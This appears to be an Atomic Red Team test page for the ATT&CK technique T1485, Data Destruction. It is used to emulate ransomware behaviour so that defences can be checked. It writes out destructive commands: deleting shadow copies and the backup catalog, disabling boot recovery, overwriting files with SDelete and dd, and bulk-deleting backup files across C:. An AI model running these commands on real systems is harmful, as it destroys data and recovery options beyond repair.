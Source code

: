 # T1485 - Data Destruction
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1485)
<blockquote>Adversaries may destroy data and files on specific systems or in large numbers on a network to interrupt availability to systems, services, and network resources. Data destruction is likely to render stored data irrecoverable by forensic techniques through overwriting files or data on local and remote drives.(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018)(Citation: Talos Olympic Destroyer 2018) Common operating system file deletion commands such as <code>del</code> and <code>rm</code> often only remove pointers to files without wiping the contents of the files themselves, making the files recoverable by proper forensic methodology. This behavior is distinct from [Disk Content Wipe](https://attack.mitre.org/techniques/T1488) and [Disk Structure Wipe](https://attack.mitre.org/techniques/T1487) because individual files are destroyed rather than sections of a storage disk or the disk's logical structure.

Adversaries may attempt to overwrite files and directories with randomly generated data to make it irrecoverable.(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018) In some cases politically oriented image files have been used to overwrite data.(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)

To maximize impact on the target organization in operations where network-wide availability interruption is the goal, malware designed for destroying data may have worm-like features to propagate across a network by leveraging additional techniques like [Valid Accounts](https://attack.mitre.org/techniques/T1078), [Credential Dumping](https://attack.mitre.org/techniques/T1003), and [Windows Admin Shares](https://attack.mitre.org/techniques/T1077).(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Talos Olympic Destroyer 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Windows Backup Catalog](#atomic-test-2---windows---delete-windows-backup-catalog)

- [Atomic Test #3 - Windows - Disable Windows Recovery Console Repair](#atomic-test-3---windows---disable-windows-recovery-console-repair)

- [Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete](#atomic-test-4---windows---overwrite-file-with-sysinternals-sdelete)

- [Atomic Test #5 - macOS/Linux - Overwrite file with DD](#atomic-test-5---macoslinux---overwrite-file-with-dd)

- [Atomic Test #6 - Windows - Delete Backup Files](#atomic-test-6---windows---delete-backup-files)


<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
vssadmin.exe delete shadows /all /quiet
```






<br/>
<br/>

## Atomic Test #2 - Windows - Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
wbadmin.exe delete catalog -quiet
```






<br/>
<br/>

## Atomic Test #3 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot. 
This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```






<br/>
<br/>

## Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete
Overwrites and deletes a file using Sysinternals SDelete.
Requires the download of either Sysinternals Suite or the individual SDelete utility.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_to_overwrite | Path of file to overwrite and remove | Path | C:\some\file.txt|
| sdelete_exe | Path of sdelete executable | Path | PathToAtomicsFolder\T1485\bin\sdelete.exe|


#### Attack Commands: Run with `command_prompt`! 
```
sdelete.exe #{file_to_overwrite}
```



#### Dependencies: Run with `powershell`!
##### Description:
Secure delete tool from Sysinternals must exist on disk at specified location (#{sdelete_exe})
##### Check Prereq Commands:
```
if (Test-Path #{sdelete_exe}) {0} else {1} 
```
##### Get Prereq Commands:
```
$client = new-object System.Net.WebClient
$client.DownloadFile("https://download.sysinternals.com/files/SDelete.zip", "$env:TEMP\SDelete.zip")
Expand-Archive $env:TEMP\SDelete.zip $env:TEMP\Sdelete -Force
New-Item #{sdelete_exe} -Force | Out-Null
Copy-Item $env:TEMP\Sdelete\sdelete.exe #{sdelete_exe} -Force
```




<br/>
<br/>

## Atomic Test #5 - macOS/Linux - Overwrite file with DD
Overwrites and deletes a file using DD.

To stop the test, break the command with CTRL/CMD+C.

**Supported Platforms:** CentOS, Linux, macOS, Ubuntu


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| overwrite_source | Path of data source to overwrite with | Path | /dev/zero|
| file_to_overwrite | Path of file to overwrite and remove | Path | /var/log/syslog|


#### Attack Commands: Run with `bash`! 
```
dd of=#{file_to_overwrite} if=#{overwrite_source}
```






<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files
Deletes backup files in a manner similar to Ryuk ransomware.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`! 
```
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```






<br/>
